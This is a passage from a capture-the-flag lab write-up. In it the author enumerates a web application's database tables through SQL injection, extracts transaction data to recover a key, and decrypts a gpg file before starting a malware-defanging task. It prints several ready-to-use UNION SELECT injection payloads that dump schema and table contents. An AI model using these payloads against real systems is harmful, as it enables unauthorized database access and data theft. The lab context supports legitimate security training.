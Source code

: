 Now we have a full list of the tables:
```
easter_egg ,leaderboard_stats ,member_stats ,products ,room_stats ,streak_stats ,transactions ,unlisted_products ,users
```
<br>

---
### Easter Egg 
Let's take a second from the actual challenge, since there is a table called easter_egg i am curios to see what it contains:
```sql
' UNION SELECT null, null, null,column_name, null FROM information_schema.columns WHERE table_name='easter_egg' -- //
```

doing this we can see a message in the description that says `url_path`, we can move on this path and construct another query
```sql
' UNION SELECT null, null, null, group_concat(message, url_path), null FROM easter_egg -- //
```

Here there is a message telling us to check /halloffame.php, visiting it there is a static leaderboard to celebrate the 3 million users.

---
Ok back to the challenge, we can take a look at the transactions table:
```sql
' UNION SELECT null, null, null, group_concat(0x0a,column_name,0x0a), null FROM information_schema.columns WHERE table_name='transactions' -- //
```

Now let's get the address:
```sql
' UNION SELECT null, null, null, group_concat(0x0a,transaction_number,0x7c,transaction_ammount,0x7c,bcoin_sender_address,0x7c,bcoin_recipient_address), null FROM transactions -- // 
```
Here i had to introduce `0x7c` which is `|` symbol and arrange the order a couple of times to make it less chaotic and more readable.

And here it is: REDACTED
Now we have the key, time to decrypt the message.

We are being told that the files were encrypted using the *gpg* command and we can decrypt them with:
```bash
gpg --decrypt 300000.txt.gpg
```

The content is the path of the malware: --> REDACTED

<br/>

### Examining the Malware
The last task tells us that we have to "defang the malware" in order to stop it from causing damage but at the same time make the attackers believe it is still working.
We are told to explore the malware directory and there we will find something that tells us how to disable its damaging effects.

